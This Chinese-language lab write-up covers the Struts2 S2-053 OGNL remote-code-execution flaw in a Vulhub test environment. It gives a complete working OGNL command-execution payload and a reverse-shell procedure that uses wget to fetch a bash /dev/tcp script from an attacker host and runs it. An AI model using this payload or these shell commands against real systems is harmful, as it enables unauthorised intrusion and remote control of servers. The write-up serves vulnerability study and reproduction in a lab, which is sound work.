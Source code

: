 # Struts2 S2-053 远程代码执行漏洞

## 漏洞描述

漏洞详情:

- http://struts.apache.org/docs/s2-053.html
- https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## 影响版本

影响版本: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

## 环境搭建

Vulhub执行以下命令启动s2-053测试环境：

```
docker-compose build
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080/hello.action`即可看到一个提交页面。

## 漏洞复现

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

输入如下Payload即可成功执行命令（注意Payload末尾有一个换行）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

![image-20220302132454688](./images/202203021324760.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

![image-20220302132524059](./images/202203021325134.png)

执行shell.sh文件的命令为：

```
bash shell.sh
```

执行shell.sh文件的Payload为：

![image-20220302132552428](./images/202203021325509.png)

成功接收反弹shell：

![image-20220302132603933](./images/202203021326024.png)